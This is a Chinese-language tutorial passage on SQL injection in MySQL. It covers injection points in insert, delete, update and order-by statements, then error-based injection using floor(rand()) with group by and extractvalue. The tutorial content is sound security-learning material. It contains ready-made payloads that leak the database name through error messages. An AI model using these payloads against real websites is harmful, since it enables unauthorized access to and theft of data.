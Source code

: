   例：`insert into users(id,username,password) values(30,'x','123')`

  应用：网站的用户注册

  和select操作的数据包相似，但是不能像普通select注入一样操作。

- delete 删除数据

  例：`delete from users where id=30`

  应用：后台管理里面删除用户等操作、删除留言等

- update 更新数据

  例：`update users set password='123' where id=11 and username='admin3'`

  应用：会员或后台中心数据同步或缓存等操作、登录后修改个人信息，如密码等

- order by 排序数据

  一般结合表名或列名进行数据排序操作

  例：select * from news order by $id

  例：select id,name,price from news order by $order

#### 基于报错的SQL盲注（优先）

12种报错注入+万能语句：https://www.jianshu.com/p/bc35f8dd4f7c

floor、extractvalue、updatexml报错原理：https://developer.aliyun.com/article/692723

- **floor向下取整数**

  0x7e为`~`

  利用了MySQL的第8652号bug ：Bug #8652 group by part of rand() returns duplicate key error来进行的盲注，使得MySQL由于函数的特性返回错误信息，进而我们可以显示我们想要的信息，从而达到注入的效果：在 **rand()和group by同时使用** 的时候，可能会产生超出预期的结果，因为会<u>多次对同一列进行查询</u>。

  ```mysql
  // insert
  username=x' or (select 1 from (select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) or '
  
  // update
  add=hubeNicky' or (select 1 from (select count(*),concat(floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a) or '
  
  // delete
  ?id=56+or+(select+1+from(select+count(*),concat(floor(rand(0)*2),0x7e,(database()),0x7e)x+from+information_schema.character_sets+group+by+x)a)   // 由于是在数据包中编辑，所以用+代替空格，避免歧义
  ```

  报错结果如下，显示出了数据库名称：

  ![image-20220727195036461](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727195036461.png)

- `extractvalue(xml_frag, xpath_expr)`

  xml_frag为XML标记片段，xpath_expr表示从XML字符串中匹配元素。如果xpath_expr格式语法书写错误的话，就会报错，输出xpath_expr。利用这个特性可以构造注入点。

